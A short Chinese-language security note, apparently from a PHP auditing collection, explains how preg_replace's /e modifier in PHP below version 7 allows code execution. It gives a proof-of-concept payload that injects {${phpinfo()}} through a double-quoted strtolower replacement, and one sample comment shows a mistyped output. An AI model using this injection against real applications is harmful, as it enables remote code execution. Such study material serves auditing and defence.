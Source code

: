 # preg_replace


**利用条件：**
- PHP<7

**参考文章：**
- https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md
- https://xz.aliyun.com/t/2557
- https://www.cnblogs.com/dhsx/p/4991983.html

**函数结构：**
```
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
```

## 利用

$pattern 存在`/e`模式修正符，允许代码执行。

**测试代码：**
```php
<?php
var_dump(preg_replace('/(.*)/ie','strtolower("\1")','{${phpinfo()}}'));
?>
```

以上代码能执行除了`preg_replace`的`/e`修饰符可以执行代码外，还一个原因是strtolower函数使用了`""`。我们知道`""`内部是可以引用变量的。如：
```php
<?php
$a='asfd';
echo "$a";  #asf
```
